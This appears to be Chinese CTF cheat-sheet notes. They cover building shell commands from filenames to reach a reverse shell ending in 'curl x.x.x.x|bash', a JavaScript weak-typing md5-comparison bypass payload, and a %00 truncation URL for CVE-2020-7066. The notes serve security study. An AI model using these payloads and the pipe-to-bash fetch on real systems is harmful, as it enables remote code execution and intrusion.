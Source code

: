#### 反弹 shell getshell

https://www.extrader.top/posts/45c7e77/
https://www.jianshu.com/p/9456473a0a14

举例 ls -l

```sh
rm *
ls
>sl
>l-
>dir
echo * # dir l- sl
*>v    # l- sl  # 即把 l- sl列出来
>rev
echo *v # rev v
*v>x    # 执行rev v>x 即 x: ls -l
sh x    # 执行
. x     # 执行
```

获取 ls -th>g

```
rm *
ls
>sl
>ht-
>g\>
>dir
*>v
>rev
*v>x
cat x
```

获取 curl x.x.x.x|bash 命令

### js 弱类型

```js
if (first && second && first.length === second.length && first!==second && md5(first+keys[0]) === md5(second+keys[0]))

{"e":paylod,"first":[0],"second":"0"}
```

### %00 截断问题 CVE-2020-7066

`[GKCTF2020]cve签到` bp 抓包 00 截断

```
http://xx.cn/?url=http://127.0.0.123%00www.ctfhub.com
```
